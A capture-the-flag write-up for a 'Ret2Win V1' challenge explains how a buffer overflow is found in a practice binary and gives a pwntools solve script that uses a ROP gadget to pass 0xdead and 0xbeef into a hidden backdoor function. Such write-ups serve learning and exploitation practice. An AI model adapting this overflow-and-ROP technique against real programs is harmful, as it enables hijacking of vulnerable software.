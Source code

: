 # Ret2Win V1

*Solved by: Logs*

This is a buffer overflow to the win(backdoor) function with key ckecks
Decompiling the binary

The challenge() function
 
![image](https://github.com/user-attachments/assets/c5a2af60-c0c2-484e-bcd5-2b16776c0140)

The first part asks us a question “Would You like to give any feeback” and our input local_d goes through a string compare, which compares it to the string “yes”. We give “yes” as the first input and the the feedback() function is called.


feedback()
 
![image](https://github.com/user-attachments/assets/908a6014-f9ad-4428-8d5e-f07e94fd1251)


The feedback function ask for another input using the read function which accepts a total of 96 bytes
0x60 = 96. 
And the function we are trying to get into, the backdoor() function

backdoor()

 ![image](https://github.com/user-attachments/assets/57031cf2-fff6-43bb-8974-6d0ecddd8780)


From here on I just attempted to try a buffer overflow, first finding the offset to the $rsp register. 
I load binary up in gdb-gef, the generate an string length of 100 with “pattern create 100”. 
Next I use ran the program, and gave it the first input “yes”, then the second input will be the pattern of 100 strings create. Which then overflowed the buffer. 

 ![image](https://github.com/user-attachments/assets/379321c0-b674-4f1e-8c34-551bff0a98a5)


With this I was able to get the offset for the overflow.


I also noticed a function in the binary called helper() Which looked like this. 
 
![image](https://github.com/user-attachments/assets/c86427ff-6529-41a9-a641-4b1c769226ca)

This will be helpful I crafting out solve script because, after overwriting the return address to the backdoor, the backdoor will also perform a check on two parameters, with values
```0xdead``` and ```0xbeef``` respectfully

Using ropper on the binary
```
ropper -f ret2win1 --search='pop rdi
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: ret2win1
0x0000000000401358: pop rdi; pop rsi; ret; 
0x00000000004014e3: pop rdi; ret;
```

So we have to load the values ```0xdead``` and ```0xbeef``` into ```0x0000000000401358: pop rdi; pop rsi; ret;```


Have all that now we write our solve script. 
```python
python
from pwn import *
# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg

continue
'''.format(**locals())

# Binary filename
exe = './ret2win1'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

offset = 56
io.sendline('yes')
# pop_rdi = p64(0x4014e3)  # Address of 'pop rdi; ret'
# pop_rsi_r15 = p64(0x4014e1)  # Address of 'pop rsi; pop r15; ret'

pop_rdi_rsi = p64(0x401358)

param_1 = 0xdead # First parameter
param_2 = 0xbeef  # Second parameter

payload = flat({
    offset: [
        pop_rdi_rsi,  # Pop the next value to RDI
        param_1,  # Pop the next value to RSI (and junk into R15)
        param_2,
        p64(elf.sym['backdoor'])
    ]
})

io.sendline(payload)
io.interactive()
```
Running the script we got the flag

